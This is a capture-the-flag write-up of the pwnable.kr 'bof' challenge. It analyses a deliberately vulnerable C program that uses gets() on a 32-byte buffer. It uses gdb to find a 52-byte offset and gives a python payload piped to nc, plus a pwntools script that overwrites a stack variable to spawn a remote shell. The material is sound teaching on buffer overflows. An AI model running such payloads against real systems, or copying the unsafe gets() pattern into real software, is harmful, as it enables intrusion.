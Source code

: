 ﻿---
layout: post
title: pwnable.kr - bof
categories: pwn
tags : [Linux, Binary Exploitation,Buffer Overflow, code analysis, Exploit Development, c, Python]
image: pwn/bof/0.png
---

<hr>
### Introduction 
#### Hey guys it's been a long time since my [first pwn write-up](https://0xrick.github.io/pwn/fd/),  today I'll write about another challenge from [pwnable.kr](https://pwnable.kr) called bof. It was a simple easy buffer overflow challenge (You can also check [these](/categories/#binary-exploitation)), by overwriting a variable we can get a shell. I'll also write a small exploit with `pwntools` that spawns a shell automatically.
![](/images/pwn/bof/0.png)
<hr>
### Challenge Description 
```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```
#### Pretty straightforward, we have the vulnerable binary, its source code and the port where it's running. 
![](/images/pwn/bof/1.png)
<hr>
### Code Analysis 
#### Let's take a look at the code :
![](/images/pwn/bof/2.png)
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
#### There are two functions, the main function and another function called `func()`
#### `func()`:
```
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```
#### Breakdown :
#### The function takes a variable called `key`, it starts by creating a variable called `overflowme` and sets a buffer of 32 chars for it : `char overflowme[32];`
#### Then it prints `overflow me :` (`printf("overflow me : ");`)  and waits for our input which will be saved in the variable `overflowme` (`gets(overflowme);`)
#### After that there's an if statement that checks if the variable `key` is equal to `0xcafebabe` (`if(key == 0xcafebabe){`). If that's true it will spawn a shell (`system("/bin/sh");`), if `key` is equal to anything else it will print `Nah..` (`printf("Nah..\n");`)
<br>
#### `main()` :
```
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
```
#### Basically what the main function is doing is just calling the function `func()` giving `key` the value of `0xdeadbeef`
<br>
#### So we need to make `key` equal to `0xcafebabe` instead of `0xdeadbeef` to make it spawn a shell. We control `overflowme` but we don't control `key`. If we can cause a buffer overflow we will be able to overwrite `key`, and obviously `overflowme` is vulnerable.
<br>
<hr>
### Examining the Binary, Exploitation
#### I ran the program and tested it a couple of times. First one with a short input :
![](/images/pwn/bof/3.png)
#### Second one with a longer input and it crashed:
![](/images/pwn/bof/4.png)
#### Important thing to note here, we don't want to know the offset or where the program exactly crashes. This is because we don't need to overwrite `EIP`, we need to overwrite a variable's value and that's located on the stack. So giving the program a pattern and finding the offset won't help because we need to know where `0xdeadbeef` is located on the stack.
#### It's time for `gdb`. I started `gdb` and created a break point at `main` (`break main`) then I started the program (`r`) : 
![](/images/pwn/bof/5.png)
#### It stopped at the break point. We need to disassemble the function `func()` to get the address of the compare instruction that compares between the value of `key` and `0xcafebabe` to set another break point there and look at the stack.
`disas func`
![](/images/pwn/bof/6.png)
#### We can see the [`cmpl` (Compare Logical)](https://www.ibm.com/support/knowledgecenter/en/ssw_aix_72/com.ibm.aix.alangref/idalangref_comp_logical_inst.htm) instruction at `0x0000654`, Lets set a break point exactly before it :
`break *0x80000654`
![](/images/pwn/bof/7.png)
#### Now let's continue the execution (`c`) and wait for our break point.
![](/images/pwn/bof/8.png)
#### I gave it a short input because we don't need to crash it and overwrite stuff on the stack, we just need to look at the stack during a normal execution to locate `0xdeadbeef`.
#### After hitting the second break point let's look at the stack :
`x/50wx $esp`
![](/images/pwn/bof/9.png)
#### `0xdeadbeef` appears at the first row in front of `0xbffff2e0` and our input starts to appear at the last row in front of `0xbffff2a0`. We can locate the distance between our input and `0xdeadbeef` easily, each hex value represents 4 chars (`0x41414141 == AAAA`) and we have exactly 13 of them before `0xdeadbeef` (`1 + 4 + 4 + 4`). 
![](/images/pwn/bof/10.png)
#### We need to give the program exactly 52 chars then `0xcafebabe` and eventually `0xdeadbeef` will be overwritten. 
#### Let's try it, I used python to print the payload in a file then I piped that file to the `nc` connection :
`python -c "print 'A' * 52 + '\xbe\xba\xfe\xca'" > ./payload`
<br>
<br>
`(cat payload && cat) | nc pwnable.kr 9000`
![](/images/pwn/bof/11.png)
#### Pwned !
<br>
<hr>
### Writing an Exploit with pwntools
#### One of the cool things about `pwntools` is the simplicity, combined with the simplicity of this exploit will make it just 4 lines of code. 
#### First thing we need to do is to import `pwntools` : `from pwn import *`
#### We need to store our payload in a variable : `payload = 'A' * 52 + '\xbe\xba\xfe\xca'`
#### Then we need to initiate the connection and assign a variable for it : `shell = remote('pwnable.kr' ,9000)`
#### After that we will send the payload : `shell.send(payload)`
#### And finally we can interact with our shell : `shell.interactive()`
![](/images/pwn/bof/12.png)
```
#!/usr/bin/python
from pwn import *

payload = 'A' * 52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```
![](/images/pwn/bof/13.png)
#### Pwned again !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Previous pwn write-up : [pwnable.kr - fd](/pwn/fd/)
#### Next pwn write-up : [pwnable.kr - collision](/pwn/collision/)
<br>
<hr>
